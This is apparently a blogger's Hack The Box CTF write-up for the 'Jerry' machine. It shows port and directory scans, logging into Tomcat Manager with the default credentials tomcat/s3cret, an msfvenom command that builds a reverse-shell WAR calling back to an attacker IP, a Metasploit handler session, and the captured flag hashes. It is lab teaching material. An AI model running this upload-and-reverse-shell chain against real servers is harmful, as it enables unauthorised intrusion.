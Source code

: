 ```yaml
---
title: Jerry, Hack the Box CTF Walkthrough
lead: Exploiting the Tomcat Manager Application
tag: CTF
image: /assets/img/posts/2021-03-04-jerry-hack-the-box-walkthrough/jerry.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
description: "Jerry is an easy level HTB challenge from the HTB archives"
card: card-2
navheader: posts
---
```


Jerry is an easy level HTB challenge from the HTB archives. The challenge involves basic CVE discovery through enumeration scans, and requires manual exploitation of the tomcat apache webserver. Overall this was a straightforward CTF challenge.  

## Enumeration  

First, I conducted a quick nmap scan of the top 200 ports to get a quick idea on the targets running services.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ nmap --top-ports 200 -Pn 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 15:43 EST
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).
Not shown: 199 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```

The results showed an open webserver on port 8080. I started a more in-depth scan using the nmapAutomator script.  Output from the scan revealed the server was running the apache tomcat webserver, a technology used to run java servlets and other java web technologies.  The recon stage of the script used Gobuster to brute force  directories, which revealed the apache tomcat `/manager` path.  

```bash
---------------------Running Recon Commands----------------------
                                                                                                                                                           

Starting gobuster scan
                                                                                                                                                           
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/03/04 15:51:47 Starting gobuster
===============================================================
http://10.10.10.95:8080/aux (Status: 200) [Size: 0]
http://10.10.10.95:8080/com2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com3 (Status: 200) [Size: 0]
http://10.10.10.95:8080/con (Status: 200) [Size: 0]
http://10.10.10.95:8080/docs (Status: 302) [Size: 0]
http://10.10.10.95:8080/examples (Status: 302) [Size: 0]
http://10.10.10.95:8080/favicon.ico (Status: 200) [Size: 21630]
http://10.10.10.95:8080/host-manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/lpt1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/lpt2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/nul (Status: 200) [Size: 0]
http://10.10.10.95:8080/prn (Status: 200) [Size: 0]
```  

## Password Cracking  

Upon visiting the manager URL, I was met with a basic HTTP authentication login form. From the eJPT course and certification exam, I already knew the default password for apache tomcat  was username:tomcat password:s3cret. Indeed, when I tried that combination it worked, showing the server was left secured with default credentials. This could also have been deduced using nikto, which also revealed the weak authentication.  

```bash
Starting nikto scan
                                                                                                                                                           
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2021-03-04 15:52:18 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2021-03-04 15:56:50 (GMT-5) (272 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

Finished nikto scan
                                                                                                                                                           
=========================
```  



After authenticating to the server, I found the manager application allowed the admin to upload a WAR file which would be executed by the server.   


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-03-04-jerry-hack-the-box-walkthrough/upload.png">
    </div>
</div>
<br/>  

## Payload Creation  

Using `msfvenom`, I created a reverse tcp shell payload to upload to the target server. Once executed, the payload would connect back to my attacker machine on port 4443.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.13 lport=4443 -f war -o pwn.war
Payload size: 13401 bytes
Final size of war file: 13401 bytes
Saved as: pwn.war
```  

Using the manager application, the payload was uploaded. 


## Catching a Reverse Shell  

Before triggering the payload, I used the multi/handler on `metasploit` to start a listener on my attacker machine to receive the reverse shell. Once the listener was started, I browsed to the location of the payload on the server, triggering the payload, and sending a reverse shell to my machine. 


```bash
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
   LPORT  4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4443 
[*] Sending stage (3008420 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.13:4443 -> 127.0.0.1) at 2021-03-04 18:58:40 -0500
```    

## Finding the Flags  

To find the flags, I dropped into the shell and manually searched the target to find the flag files.   

```bash
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,601,940,480 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```



